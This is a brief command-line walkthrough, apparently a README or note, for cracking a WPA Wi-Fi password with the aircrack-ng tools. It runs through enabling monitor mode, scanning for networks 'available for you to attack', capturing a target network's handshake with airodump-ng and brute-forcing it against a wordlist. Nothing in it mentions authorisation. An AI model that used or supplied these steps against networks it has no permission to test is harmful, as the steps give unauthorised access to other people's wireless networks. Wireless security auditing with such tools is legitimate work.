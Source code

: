 # iwconfig :
            this lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1
# airmon-ng start wlan1
# iwconfig : 
            this will now show you wlan1mon meaning it can now be used to capture network traffic
# airodump-ng wlan1mon :
            This will search for all wifi available for you to attack. Now mark the channel and mac address of the wifi you want to attack.
# airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
            This will try to capture any wpa handshake, once captured, stop it wit ctrl+c. E.g, EAPOL handshake
# aircrack-ng output-above.cap -w wordlist.txt

